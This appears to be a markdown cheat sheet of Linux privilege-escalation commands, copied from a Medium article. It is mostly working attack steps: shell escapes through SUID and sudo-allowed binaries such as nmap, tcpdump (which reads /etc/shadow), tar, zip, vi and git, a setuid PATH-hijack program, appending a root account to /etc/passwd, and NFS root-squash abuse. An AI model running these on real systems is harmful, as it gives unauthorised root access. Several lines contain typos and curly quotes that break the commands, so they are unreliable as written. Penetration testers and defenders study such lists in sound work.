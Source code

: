 ### Original artical - https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4

# Linux Pric Esc Commands

## 01 Kernel Exploit

	$ uname -a
	$ cat /etc/issue
	$ cat /etc/*-release
	$ cat /etc/lsb-release
	$ cat /etc/redhat-release
	$ lsb_release

## 02 Exploit the service running as root

For Samba 2.2.x, 
 - https://www.exploit-db.com/exploits/10

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.
 - https://www.exploit-db.com/exploits/1518

## 03 Find anything with SUID / SGID permission

### Finding interesting file

	$ find / -user root -perm -4000 2>/dev/null
	$ find / -perm -2000 2>/dev/null


### nmap 

	$ nmap --interactive
	nmap> !sh

	Another way below (if nmap doesn’t have interactive mode):
	$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)
	$ sudo nmap --script=/tmp/shell.nse)

### vi

	$ vi
	:!sh

### find
	$ find / home -exec sh -i \;

### python

	$ python -c ‘import pty;pty.spawn(“/bin/sh”)’

### strace

	$ strace -o /dev/null /bin/sh


### tcpdump

	$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
	$ chmod +x /tmp/.shell
	$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root


If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

	$ export PATH=.:$PATH
	$ cat setuid.c
		#include <stdio.h>
		int main(void)
		{
		setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);
		}
	$ mv setuid scp
	$ ./script.sh

### abuse sudo

Use the following command to show which command have allowed to the current user.

	$ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!

### zip

    $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

### tar

    $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

### strace

    $ sudo strace -o/dev/null /bin/bash

### tcpdump

    $ echo $’id\ncat /etc/shadow’ > /tmp/.shell
    $ chmod +x /tmp/.shell
    $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

### nmap

    $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
    $ sudo nmap --script=/tmp/shell.nse

    Another way below:
    ($ sudo nmap --interactive
    nmap> !sh)

### scp

    $ sudo scp -S /path/to/your/script x y

### except

    $ sudo except spawn sh then sh

### nano

    $ sudo nano -S /bin/bash

### git

    $ sudo git help status
    : !/bin/bash

### gdb/ftp

    $ sudo ftp
    : !/bin/sh



## 05 Find any writable file owned by root

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

    $ find / -perm -002 -user root -type f -not-path “/proc/*” 2>/dev/null

## 06 Check /etc/passwd if writable

If you see /etc/passwd is writable, the only thing you should do is to echo one line to /etc/passed

    $ echo “tseruser::0:0:pawned:/root:/bin/bash” >> /etc/passwd
    $ su testuser
	
## 07 NFS root squashing

According Wikipedia, root squash is a special mapping of the remote superuser (root) identity when using identity authentication (local user is the same as remote user). Under root squash, a client’s uid 0 (root) is mapped to 65534 (nobody). It is primarily a feature of NFS but may be available on other systems as well.

In the scenario which you use showmount to find your target has NFS service up and running and you’re already in via anyway and you find you have the permission to edit /etc/exports as well, for example, you can use sudoedit to edit /etc/exports. You can put no_root_squash to disable root squash. Please see below:

    /home/userfolder *(rw,no_root_squash)

And then you can mount this folder with local root and put the copy of /bin/bash into it. After this, try use the exploited normal account to execute this /bin/bash. You will get the heaven !!!

## 08 Useful tools

	- LinEnum
	https://github.com/rebootuser/LinEnum
	
	- linuxprivchecker
	https://github.com/sleventyeleven/linuxprivchecker
	
	- unix-privesc-check
	https://github.com/pentestmonkey/unix-privesc-check
